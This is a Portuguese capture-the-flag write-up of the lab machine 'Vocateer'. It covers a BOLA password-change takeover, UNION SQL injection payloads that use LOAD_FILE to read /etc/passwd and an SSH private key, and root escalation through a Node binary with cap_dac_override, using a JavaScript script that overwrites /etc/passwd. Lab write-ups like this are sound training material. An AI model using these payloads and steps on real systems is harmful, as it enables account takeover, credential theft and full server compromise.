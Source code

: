 ```yaml
---
title: 'Vocateer Writeup'
date: '2025-01-04'
tags: ['BOLA', 'SQLI', 'Linux', 'Hacking Club']
draft: false
summary: 'Máquina sobre Broken Access Control, BOLA, SQL Injection e linux capabilities.'
images: ['/static/images/vocateer-writeup-images/default.png']
authors: ['default']
---
```


![logo](/static/images/vocateer-writeup-images/default.png)

---

### Port Scanning

`nmap -sC -sV -p- -v $IP --open -T 5`

![vocateer](/static/images/vocateer-writeup-images/image.png)

Somente as portas 22 (SSH), 80 (HTTP) e 3000 (Node.js) estão abertas.

---

## Enumeration

`http://172.16.5.196`

![vocateer 1](/static/images/vocateer-writeup-images/image1.png)

Precisamos adicionar o endereço no nosso arquivo de configuração de hosts.

`sudo vim /etc/hosts`

![vocateer 2](/static/images/vocateer-writeup-images/image2.png)

Agora podemos acessar a aplicação:

![vocateer 3](/static/images/vocateer-writeup-images/image3.png)

Após criarmos nossa conta em `Create account` e logar na aplicação, podemos ver que um JWT está sendo utilizado como Cookie de sessão.

![vocateer 4](/static/images/vocateer-writeup-images/image4.png)

Ao analisar o JWT, podemos ver que nossa conta está como `‘free’`, e só podemos nos candidatar as vagas de emprego se tivermos acesso ao premium da plataforma.

https://jwt.io/

![vocateer 5](/static/images/vocateer-writeup-images/image5.png)

A aplicação também possui uma funcionalidade de trocar de senha.

![vocateer 6](/static/images/vocateer-writeup-images/image6.png)

Após trocar a senha e interceptar a requisição, podemos ver que ele faz uma requisição a API da aplicação.

![vocateer 7](/static/images/vocateer-writeup-images/image7.png)

Se de alguma forma conseguirmos acesso aos usuários da aplicação, podemos testar a vulnerabilidade BOLA (Broken Object Level Authorization), para tentar trocar a senha de outro usuário.

Normalmente as APIs possuem rotas como `/api/users` , `/api/v1/users` ou `/api/v2/users` que acabam listando os usuários.

Ao fazer a requisição para a rota `/api/users` podemos ver o ID do usuário `clopez`, que possui a role premium, vamos trocar a senha dele.

![vocateer 8](/static/images/vocateer-writeup-images/image8.png)

![vocateer 9](/static/images/vocateer-writeup-images/image9.png)

Agora temos acesso a funcionalidade de aplicar para as vagas de emprego.

![vocateer 10](/static/images/vocateer-writeup-images/image10.png)

Após clicar em `Apply Now` e interceptar a requisição, podemos ver que uma delas é pra rota `/api/jobs` , e quando passamos uma aspas simples na requisição, a aplicação retorna um código 500 (Internal Server Error), indicando um possível SQL Injection.

![vocateer 11](/static/images/vocateer-writeup-images/image11.png)

![vocateer 12](/static/images/vocateer-writeup-images/image12.png)

`a' UNION SELECT 1,2,3 #`

OBS: lembre-se de encodar a payload em URL-encode all characters

![vocateer 13](/static/images/vocateer-writeup-images/image13.png)

![vocateer 14](/static/images/vocateer-writeup-images/image14.png)

SQL Injection confirmado 😀

Com isso, podemos utilizar a função `LOAD_FILE()` para ler arquivos do servidor, por exemplo o `/etc/passwd`

`a' UNION SELECT 1, LOAD_FILE ('/etc/passwd'),3 #`

![vocateer 15](/static/images/vocateer-writeup-images/image15.png)

---

## Foot Hold

Como a maquina possui um servidor ssh aberto, podemos tentar ler a chave ssh do usuário `roger`, que achamos no arquivo `/etc/passwd`

`a' UNION SELECT 1, LOAD_FILE ('/home/roger/.ssh/id_rsa'),3 #`

![vocateer 16](/static/images/vocateer-writeup-images/image16.png)

```jsx
echo "chave ssh" > id_rsa
chmod 600 id_rsa
ssh roger@IP -i id_rsa
```

![vocateer 17](/static/images/vocateer-writeup-images/image17.png)

![vocateer 18](/static/images/vocateer-writeup-images/image18.png)

---

## Privillege Escalation

Binário `/usr/bin/node` com a Capability `cap_dac_override` que nos permite sobrescrever qualquer arquivo do servidor.

```bash
getcap -r / 2>/dev/null
```

![vocateer 19](/static/images/vocateer-writeup-images/image19.png)

Com isso, podemos adicionar um novo usuário como root no sistema a partir do arquivo `/etc/passwd`

```jsx
cp /etc/passwd .
openssl passwd -1

# adicionei meu usuário como root na ultima linha
talon:$1$8C768ERL$H29rFHRyekRriZwML6bOO.:0:0:root:/root:/bin/bash
```

![vocateer 20](/static/images/vocateer-writeup-images/image20.png)

Após isso, precisamos sobrescrever o arquivo passwd original, utilizei um exploit em JavaScript para isso.

`exploit.js`

```jsx
const fs = require('fs')
const path = require('path')

const localPasswdPath = path.join(__dirname, 'passwd')
const systemPasswdPath = '/etc/passwd'

fs.readFile(localPasswdPath, 'utf8', (err, data) => {
  if (err) {
    console.error('Erro ao ler o arquivo passwd local:', err.message)
    process.exit(1)
  }

  fs.writeFile(systemPasswdPath, data, (err) => {
    if (err) {
      console.error('Erro ao sobrescrever o arquivo /etc/passwd:', err.message)
      process.exit(1)
    }

    console.log('Arquivo /etc/passwd sobrescrito com sucesso!')
  })
})
```

![vocateer 21](/static/images/vocateer-writeup-images/image21.png)

---

## Proof

![vocateer 22](/static/images/vocateer-writeup-images/image22.png)

